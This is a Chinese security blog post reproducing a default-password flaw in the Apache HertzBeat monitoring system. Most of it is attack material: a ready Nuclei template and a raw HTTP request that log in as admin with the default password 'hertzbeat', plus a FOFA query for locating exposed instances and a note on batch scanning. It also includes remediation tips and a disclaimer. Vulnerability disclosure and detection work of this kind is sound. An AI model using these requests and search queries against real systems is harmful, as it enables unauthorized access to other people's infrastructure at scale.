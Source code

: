 #  Apache-HertzBeat开源实时监控系统存在默认口令漏洞【漏洞复现|附nuclei-POC】   
原创 kingkong  脚本小子   2024-12-06 06:40  
  
****  
**免责声明：**  
**本文内容仅供技术学习参考，请勿用于违法破坏。利用此文所提供的信息或者工具而造成的任何直接或者间接的后果及损失，均由使用者本人负责，与作者无关。如有侵权请联系删除。**  
  
****  
****  
**漏洞描述：**  
  
Apache-HertzBeat开源实时监控系统存在默认口令漏洞。  
攻击者  
可能利用弱口令导致系统、应用程序或账户遭受未经授权的访问、信息泄露或其他安全风险。  
  
  
01  
  
—  
  
**Nuclei POC**  
  
```
id: Apache-HertzBeat-default-passwd

info:
  name: Apache-HertzBeat开源实时监控系统存在默认口令漏洞
  author: kingkong
  severity: high
  metadata:
    fofa-query: app="HertzBeat-实时监控系统""

http:
  - raw:
      - |
        POST /api/account/auth/form HTTP/1.1
        Host: {{Hostname}}
        Content-Type: application/json
        Content-Length: 56

        {"type":0,"identifier":"admin","credential":"hertzbeat"}

    matchers-condition: and
    matchers:
      - type: dsl
        dsl:
              - 'status_code_1 == 200'
              - 'contains(body_1,"token")'
        condition: and
```  
  
  
02  
  
—  
  
搜索语法  
```
FOFA：app="HertzBeat-实时监控系统"
```  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aEP4jW2ohneCqaAO1guictZavSImBZfTibuOcsiazl2vMjPhJPfYUdvkCXQRhvN2AR96CHJkebkykicEoV0kQicbeAQ/640?wx_fmt=png&from=appmsg "")  
  
  
界面如下  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aEP4jW2ohneCqaAO1guictZavSImBZfTibNKkSriaUFUoAMJPRUEciae2BMjwqQF26iaFp8O0usClekXyva7AiczzcCg/640?wx_fmt=png&from=appmsg "")  
  
  
  
03  
  
—  
  
漏洞复现  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aEP4jW2ohneCqaAO1guictZavSImBZfTibzXOSNUwjetnPicnUkVI9W6wSicnMcvlCVXzGibEJ2554sxVMJj7DtIt9Q/640?wx_fmt=png&from=appmsg "")  
  
  
漏洞检测POC  
```
POST /api/account/auth/form HTTP/2
Host: 
Content-Type: application/json
Content-Length: 56

{"type":0,"identifier":"admin","credential":"hertzbeat"}
```  
  
  
neclei批量检测截图  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aEP4jW2ohneCqaAO1guictZavSImBZfTibV9bnrn3hGxLic7IEL7c9ffESjy1hJmKuSxEkIIpZrO1KcxicEO76QnNQ/640?wx_fmt=png&from=appmsg "")  
  
  
  
  
04  
  
—  
  
修复建议  
  
  
1、强制密码策略：实施强制的密码复杂性要求，包括长度、大小写字母、数字和特殊字符的组合等。  
  
2、多因素身份验证：使用多因素身份验证（MFA）来增强账户的安全性，即使密码泄露也能提供额外的保护。  
  
3、密码定期更新：建议用户定期更改密码，以减少密码泄露后的风险。  
  
  
  
  
  
05  
  
—  
  
下载地址  
  
  
进入公众号点击POC可获取所有POC文件  
  
![](https://mmbiz.qpic.cn/mmbiz_png/aEP4jW2ohneS7aOPfDNKhvOicibVlyrkJ3A4EuUx5c5S8eAxFnF9KiaibAGJfP6ibB6ze4Rm4pZ7MI4jQibT05lTevqg/640?wx_fmt=other&from=appmsg&tp=webp&wxfrom=5&wx_lazy=1&wx_co=1 "")  
  
  
  
  
  
  
  

